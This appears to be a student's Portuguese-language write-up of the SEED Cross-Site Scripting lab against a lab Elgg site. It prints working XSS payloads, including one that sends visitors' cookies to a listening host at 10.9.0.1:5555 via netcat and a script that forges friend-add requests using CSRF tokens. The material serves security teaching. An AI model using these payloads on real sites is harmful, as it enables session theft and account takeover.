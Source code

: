 # Trabalho realizado na semana 10

## **Cross-Site Scripting (XSS) Attack Lab (Tarefas obrigatórias)**

### **Preparação**

- Fomos bem sucedidos em abrir a extensão do firefox "HTTP Header Live", como é observável no screenshot seguinte:

![Preparação Bem-sucedida!](Seed_Lab/screenshot-prep.png)

### **Tarefa 1**

- Editamos a *brief-description* do perfil "Samy" para conter o código ``<script>alert('XSS- Hello World!')</script>``

- Primeiro verificámos que para o próprio user que é dono do perfil, o alert() definido também é ativado, sendo a mensagem visível.

- Depois, fazendo logout desse perfil, quando iniciamos sessão com outro user, p.e. a "Alice" e acedemos ao perfil "Samy" aparece um alerta na janela, como pode ser comprovado pelo seguinte screenshot.

![Output no perfil Samy](Seed_Lab/screenshot-tsk1.png)

### **Tarefa 2**

- Alterámos outra vez o conteúdo da *brief-description* para, desta vez, conter ``<script>alert('XSS' + "\n"+ document.cookie)</script>``.

- O que verificamos foi que tanto para o user dono do perfil que o vê, como para outros utilizadores que visitam o perfil com código malicioso, aparece um alerta com o seguinte formato (XSS - [cookies do utilizador]), como é observável na imagem seguinte:

![Output de cookies Output no perfil Samy](Seed_Lab/screenshot-tsk2.png)

- Verificámos que a apresentação dos cookies funciona até para o perfil do admin (acessível com a password: ``seedadmin``)

### **Tarefa 3**

- Modificámos mais uma vez a *brief-description* do perfil "Samy", para conter, ``<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’);</script>``.

- Com isto verificámos que não aparece qualquer alert no ecrã, quanto um outro *user* acede ao perfil malicioso, mas na consola aberta pelo atacante, que está à escuta (através da execução do comando ``nc -lknv 5555``) e nas Web Developer Tools do Browser, é reconhecido um pedido GET para uma imagem, que contém o cookie do utilizador autenticado no momento, como é visível nas imagens seguintes.

![Output Web Developer Tools - cookies enviados para o server do atacante](Seed_Lab/screenshot-tsk3-1.png)

![Output Consola do Atacante - cookies](Seed_Lab/screenshot-tsk3-2.png)

### **Tarefa 4**

- Primeiro analisámos como é o pedido HTTP enviado para o servidor quando um *user* adiciona outro como *friend*, no exemplo abaixo, "Alice" adiciona "Boby" como amigo.

![Adicionar Amigo 'normal'](Seed_Lab/screenshot-tsk4-1.png)

- Podemos observar que são enviados vários argumentos (`elgg_ts` e `elgg_token`- cada um duas vezes, na seguinte ordem - `ts + token + ts + token`) para que esse processo seja realizado da forma correta.

- Com isto é nos possível elaborar o script que possa ser ativado aquando da abertura do perfil "Samy", que vai causar a adição do "Samy" como amigo ao *user* que está a visualizar o perfil "Samy".

- Abaixo incluímos o script de código, que realiza esta ação, que escrevemos no *"About Me"* do perfil do Samy.

```
<script type="text/javascript">
window.onload = function () {
	var Ajax=null;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
	var token="&__elgg_token="+elgg.security.token.__elgg_token; 
	
	//Construct the HTTP request to add Samy as a friend.
	var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token; 
	
	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
}
</script>

```

- Em relação ao script fornecido, apenas foi necessário criar o url necessário para o ***HTTP GET request***, com as variáveis ts e token e com o valor do *id* (presumimos nós) do "Samy", que conseguimos obter através da análise de um pedido de amizade realizado pela "Alice", que depois removemos.

![Obtenção do friend_id do 'Samy'](Seed_Lab/screenshot-tsk4-2.png)

- Após aceder ao perfil do "Samy" com a conta da "Alice", ou mesmo do "Admin", por exemplo, podemos verificar que é adicionado o "Samy" à lista de *friends* da pessoa que visitou esse perfil.

![Nova Lista de Amigos da 'Alice'](Seed_Lab/screenshot-tsk4-3.png)

#### **Tarefa 4 -  Perguntas a responder**

• **Question 1**: Explain the purpose of Lines ➀ and ➁, why are they are needed?

- **Linha ➀ - *var ts*** - Pensamos que é utilizada para obter o valor de elgg_ts, necessário para realizar o pedido "GET" que adiciona um *friend* novo.

- **Linha ➁ - *var token*** - Assumimos que é utilizada para, de maneira semelhate à anterior, obter o valor de elgg_token, também necessária para o pedido a realizar. 

• **Question 2**: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

- Não seria possível realizar tão facilmente o ataque, visto que o código script escrito seria interpretado apenas como texto e não como código passível de ser executado.